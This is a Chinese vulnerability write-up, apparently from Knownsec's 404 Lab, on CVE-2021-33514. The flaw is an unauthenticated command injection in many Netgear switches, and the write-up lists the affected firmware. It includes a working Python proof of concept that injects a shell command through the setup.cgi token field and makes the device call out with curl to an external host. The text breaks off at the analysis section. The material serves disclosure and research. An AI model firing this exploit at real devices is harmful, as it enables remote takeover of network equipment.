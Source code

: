 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Z_VpuANZpih704K9lUEjmQ)

![](https://mmbiz.qpic.cn/mmbiz_gif/3k9IT3oQhT09IJjs3wGQbICd50va8zMqfnXZfD5LGdibcuOrtia3P4DpMAVfibZ8J4MsbHt0JW20QL8Wh0SO8zpyA/640?wx_fmt=gif)

**作者：OneShell@知道创宇 404 实验室  
时间：2021 年 7 月 21 日**

 **漏洞信息** 

CVE-2021-33514 是发生在 Netgear 多款交换机上的命令注入漏洞，可以未认证远程代码执行，CVSS3：9.8（高危）。

漏洞产生的根本原因是 libsal.so.0.0 中的函数`sal_sys_ssoReturnToken_chk`存在命令注入，这个函数用于处理 url 中的`tocken`字段，直接将`tocken`传递到格式化字符串中，然后调用`popen`执行。后端处理 setup.cgi 加载了该 so 文件，并且在处理 url 的时候调用了该存在漏洞的函数。漏洞利用起来也非常简单，直接给 cgi 发送构造了命令的请求就可以。

Netgear 官方给出的受漏洞影响设备和固件版本如下表：

<table><thead><tr><td><section>影响设备</section></td><td><section>固件版本</section></td></tr></thead><tbody><tr><td><section>GC108P</section></td><td><section>&lt;=1.0.7.3</section></td></tr><tr><td><section>GC108PP</section></td><td><section>&lt;=1.0.7.3</section></td></tr><tr><td><section>GS108Tv3</section></td><td><section>&lt;=7.0.6.3</section></td></tr><tr><td><section>GS110TPP</section></td><td><section>&lt;=7.0.6.3</section></td></tr><tr><td><section>GS110TPv3</section></td><td><section>&lt;=7.0.6.3</section></td></tr><tr><td><section>GS110TUP</section></td><td><section>&lt;=1.0.4.3</section></td></tr><tr><td><section>GS710TUP</section></td><td><section>&lt;=1.0.4.3</section></td></tr><tr><td><section>GS716TP</section></td><td><section>&lt;=1.0.2.3</section></td></tr><tr><td><section>GS716TPP</section></td><td><section>&lt;=1.0.2.3</section></td></tr><tr><td><section>GS724TPP</section></td><td><section>&lt;=2.0.4.3</section></td></tr><tr><td><section>GS724TPv2</section></td><td><section>&lt;=2.0.4.3</section></td></tr><tr><td><section>GS728TPPv2</section></td><td><section>&lt;=6.0.6.3</section></td></tr><tr><td><section>GS728TPv2</section></td><td><section>&lt;=6.0.6.3</section></td></tr><tr><td><section>GS752TPPv1</section></td><td><section>&lt;=6.0.6.3</section></td></tr><tr><td><section>GS752TPv2</section></td><td><section>&lt;=6.0.6.3</section></td></tr><tr><td><section>MS510TXM</section></td><td><section>&lt;=1.0.2.3</section></td></tr><tr><td><section>MS510TXUP</section></td><td><section>&lt;=1.0.2.3</section></td></tr></tbody></table>

 **漏洞复现** 

复现过程仅仅使用了 python 的 requests 模块，设备使用的是放置在公网的 GS110TPP，固件版本 V7.0.1.16，使用的 so 和 cgi 程序关键代码差别不大，具有代表性。通过分析交换机固件发现里面常见的可以反弹 shell 的程序都木有，那验证命令执行就使用了 curl，用它去访问我的公网 VPS，如果 nc 检测到访问，说明发生了命令注入。

```
import requests
vul_url = 'https://X.X.X.X/cgi/setup.cgi?token=\';$(cat);\''
payload = 'curl X.X.X.X.X:8080'
try:
    res = requests.post(url=vul_url, data=payload, verify=False, timeout=10)
    print('[!] should not return any thing')
except:
    print('[+] success!')
```

![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1V8TbxA178dE9IhSA97XJVoYibhHT68mlOlbuNrBtj5s28IBQExzTbavdYhN9EzG1vEjX4JxGaDjA/640?wx_fmt=png)

 **漏洞分析** 

### 固件提取

